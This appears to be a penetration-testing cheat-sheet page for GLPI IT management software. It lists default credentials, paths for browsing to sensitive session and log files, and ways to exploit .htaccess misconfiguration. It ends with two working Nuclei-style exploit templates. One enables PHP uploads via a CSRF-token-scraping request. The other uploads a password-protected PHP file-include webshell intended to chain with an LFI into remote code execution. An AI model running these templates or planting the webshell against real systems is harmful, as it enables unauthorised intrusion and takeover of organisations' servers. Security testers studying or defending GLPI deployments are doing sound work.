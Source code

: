 # GLPi IT Management

<div class="row row-cols-lg-2"><div>

GLPi is a popular open-source it management platform. It can be used for a variety of use cases going from host management to ticketing.

* [Official website](https://glpi-project.org/) <small>(4.2k ⭐)</small>
* [Github](https://github.com/glpi-project/glpi) <small>(4.2k ⭐)</small>
* MySQL/MariaDB and PHP

GLPi is commonly found in french enterprises even if they have another solutions globally, often for a specific use case.
</div><div>

Default credentials are:

* `glpi:glpi` (Super Admin)
* `post-only:post-only` (Self-Service)
* `tech:tech` (Technician)
* `normal:normal` (Observer)

⚠️ Using this software may be dangerous as each [release](https://github.com/glpi-project/glpi/releases) usually has many patched vulnerabilities <small>(3-7 per release, excluding misconfigurations)</small>.
</div></div>

<hr class="sep-both">

## GLPI — Website Discovery

<div class="row row-cols-lg-2"><div>

#### GLPI Discovery — Forced Browsing

By default, GLPI webserver should be mapped to the `/public/` folder. It's often misconfigured, leading to internal files being web-accessible.

* [ ] `/files/` - critical sensitive files, protected by .htaccess
  * [ ] `/files/_log/` - server and application logs
  * [ ] `/files/_sessions/` - PHP sessions
  * [ ] `/files/_tmp/` or `/files/_uploads/` - uploaded files 
* [ ] `/version/` - directory listing may be enabled
* [ ] `/vendor/` - protected by .htaccess
</div><div>

#### GLPI Discovery — Fingerprint

GLPi version can be found in two places.

* [x] Check for a file such as `/version/10.0.10`
* [x] Check for the version once connected in `About`
</div></div>

<hr class="sep-both">

## GLPI — Website Exploitation

<div class="row row-cols-lg-2"><div>

#### GLPI Exploitation — .htaccess failure

By default, `.htaccess` are ignored by Apache unless `AllowOverride` is specified. This can lead to multiple security issues.

* [ ] Navigate to `/files/_session/` and try every cookie
* [ ] Upload a PHP script and run it from `/files/_tmp/`

🛡️ Only expose the `/public/` folder or use `AllowOverride` on Apache.

#### GLPI Exploitation — PHP File Upload

🤖 Tested with GLPI `10.0.10` to `10.0.16`.

<details class="details-n">
<summary>Allow PHP Extension In File Upload</summary>

```yaml!
id: glpi-enable-php-upload

info:
  name: GLPI Enable PHP Upload
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/documenttype.form.php"

    headers:
      Content-Type: "multipart/form-data; boundary=----48d91b129fc5f9f6167b0f7da257b91"

    body: "------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\nPHP\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"comment\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"icon\"\r\n\r\nai-dist.png\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"is_uploadable\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"ext\"\r\n\r\nphp\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"mime\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"add\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91--\r\n"

    extractors:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Upload PHP File</summary>

```yaml!
id: glpi-upload-php-webshell

info:
  name: GLPI Upload setup.php webshell
  description: |
    Only one uploaded file can be named "setup.php" which can be used along with a specific LFI to get a RCE.
    This code upload some setup.php file that can be used to load another arbitrary.php.
    This makes it easy to exploit a website as we cannot delete nor modify "setup.php".

    With the intended LFI exploit, simply use: 

    {{BaseURL}}/front/plugin.php?passwd=Pwned1234!&target=your_real_webshell.php)
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/fileupload.php"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "multipart/form-data; boundary=----5caea02864785d478355a5e77c18d034"

    body: "------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\n_uploader_filename\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"showfilesize\"\r\n\r\n1\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"_uploader_filename[]\"; filename=\"setup.php\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\r\nif(isset($_GET['passwd'])&&$_GET['passwd']===\"Pwned1234!\"){ini_set('display_errors',1);error_reporting(E_ALL);echo \"Password OK\";if(isset($_GET['target'])){include_once $_GET['target'];}die();}\r\n------5caea02864785d478355a5e77c18d034--\r\n"

    matchers:
      - type: status
        status:
          - 200
```
</details>
</div><div>
</div></div>